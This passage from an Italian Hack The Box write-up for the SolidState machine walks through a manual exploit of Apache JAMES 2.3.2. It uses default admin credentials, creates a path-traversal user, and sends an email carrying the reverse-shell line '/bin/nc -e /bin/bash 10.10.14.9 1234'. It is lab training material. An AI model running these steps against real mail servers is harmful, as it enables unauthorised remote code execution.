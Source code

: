 ## Exploit Manuale

Proviamo ad eseguire l'exploit in maniera manuale.

Riprendiamo la proof of concept dell'exploit...

Vedendo cosa fa lo script, proverò a farlo manualmente con nc e telnet. 
Innanzitutto, creiamo un utente:

```bash
root@kali# nc 10.10.10.51 4555 
JAMES Remote Administration Tool 2.3.2 Please enter your login and password 
Login id: root 
Password: root Welcome root. HELP for a list of commands 
adduser ../../../../../../../../etc/bash_completion.d password 
User ../../../../../../../../etc/bash_completion.d added quit Bye
```

Ora, invierò a quell'utente un'e-mail con una shell inversa, con telnet connettendomi a SMTP 25:
Per inviare una mail con telnet possiamo vedere questo [articolo](https://learn.microsoft.com/en-us/exchange/mail-flow/test-smtp-telnet?view=exchserver-2019)

```bash

┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
EHLO xRabbit
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 3 Jul 2023 15:44:47 -0400 (EDT)
250-solidstate Hello xRabbit (10.10.14.9 [10.10.14.9])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'xrabbit@gmail.com>
250 2.1.0 Sender <'xrabbit@gmail.com> OK
DATA
503 5.5.0 No recipients specified
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: xrabbit@gmail.com
'
/bin/nc -e /bin/bash 10.10.14.9 1234
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.
```

comunque piccolo recap dei comandi 
